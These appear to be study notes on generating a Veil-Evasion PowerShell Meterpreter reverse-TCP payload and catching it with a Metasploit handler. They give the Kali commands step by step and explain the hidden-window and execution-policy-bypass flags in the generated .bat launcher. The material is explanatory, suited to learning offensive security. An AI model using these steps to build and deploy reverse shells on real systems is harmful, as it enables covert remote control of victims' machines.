



example: understand payload generated
Example:
root@kali:# use Evasion
root@kali:# list
root@kali:# use powershell/meterpreter/rev_tcp.py
root@kali:# set lhost 192.168.1.122
root@kali:# generate
<insert-name-to-use-for-the-payload>
 /var/lib/veil/output/source/foxConnection.bat → payload file
/var/lib/veil/output/handlers/foxConnection.rc → Metasploit configuration file
(also known as a handler file) that we can use with metasploit
root@kali:# msfconsole -r /var/lib/veil/output/handlers/foxConnection.rc
 Now Metasploit is now only
awaiting connection from our malicious payload "foxConnection.bat" from a Windows machine
root@kali:# cat /var/lib/veil/output/source/foxConnection.bat
 ◇
@echo off → turn off the echoing of commands on the screen
◇
if %PROCESSOR_ARCHITECTURE%==x86 ... else ... → checks the processor architecture to
determine which version of PowerShell to invoke (the x86 or the x64 version
◇
-NoP: short for NoProfile, it prevents PowerShell from loading a profile of custom
settings
◇
-NonI: short for NonInteractive, it prevents PowerShell from
displaying an interactive prompt to the user on the screen
◇
-W Hidden:
set the window style of PowerShell to Hidden so that it won't pop up a PowerShell console on the screen. Note
that the .bat file that launches PowerShell displays a console, but PowerShell will not.
◇
-Exec Bypass: this ensures the script will run regardless of the execution policy of
powershell on the system. Note that Execution Policy was never meant to be a security restriction, rather a way to
prevent admins from accidentally doing damage.
To see many ways to bypass ExecutionPolicies:
https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy.
*In this case is not present in the x86 command but i do not know why...to be explored...
◇
-Command: finally, we have the PowerShell command to be executed
Bibliography:
•
Dissecting
Veil-Evasion Powershell Payloads and Converting to a Bind Shell (tevora.com)•
https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy